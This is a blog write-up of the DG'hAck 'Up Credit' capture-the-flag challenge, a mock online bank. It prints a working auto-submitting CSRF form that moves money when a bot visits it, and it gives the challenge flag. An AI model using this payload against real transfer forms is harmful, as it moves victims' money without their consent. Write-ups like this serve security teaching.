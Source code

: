 ```yaml
---
title: "Writeup DG'hAck: Up Credit"
date: 2020-11-19T04:29:21+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


The challenge URL redirects us to an online bank. The summary tells us that we have to buy the flag for 200€!

Let's start by registering for an account. After entering our name and email, we get an account ID and a password:

[![The registration message](/assets/dghack/upcredit-registration.png)](/assets/dghack/upcredit-registration.png)

After logging in, we are presented with an interface that has three tabs:
 - an activity log
 - a money transfer form
 - a form to contact our financial advisor

Trying an XSS in the contact form quickly reveals that the bot doesn't execute any javascript, but does click any link that is posted. This will probably be useful later on.

Let's look at the money transfer form:

[![The money transfer form](/assets/dghack/upcredit-money-transfer.png)](/assets/dghack/upcredit-money-transfer.png)

It looks quite simple. After registering another account and trying:
 - sending money we don't have
 - sending huge amounts of money
 - sending negative amounts of money
 - some sqli

We find out that the form is quite secure. But wait, it doesn't have any CSRF token! Let's try exploiting that. Using [ngrok](ngrok.com), we create a webpage and temporarily host it.

In it, we copy the form which we fill out, and add a little bit of JS to automatically submit it:

```html
<form action="http://upcredit4.chall.malicecyber.com/transfer" method="post" id="form">
    <div class="col-md-12 col-sm-12 col-xs-12">
        <div class="form-group">
        <input type="text" class="form-control" id="account"
                   placeholder="Account number" name="account"
                   value="Aln6qOfUJ">
        </div>
        <div class="form-group">
            <input type="number" class="form-control" id="amount"
                   placeholder="Amount" name="amount" value="200">
            <div class="help-block with-errors" style="color: #f00"></div>
        </div>
        <div class="pull-right">
            <button type="submit" id="reg-submit"
                    class="btn btn-md btn-common btn-log">Send
            </button>
            <div id="msgSubmit" class="h3 text-center hidden"></div>
            <div class="clearfix"></div>
        </div>
    </div>
</form>

<script>
    form.submit()
</script>
```

After posting the link to our form in the contact area and waiting for a few seconds, we get a money transfer:

[![The money transfer form](/assets/dghack/upcredit-credited.png)](/assets/dghack/upcredit-credited.png)

And we can buy the flag: `W1nG4rD1um\L3v1os444!`.

---

[View all of the DG'hAck articles](/tags/dghack).
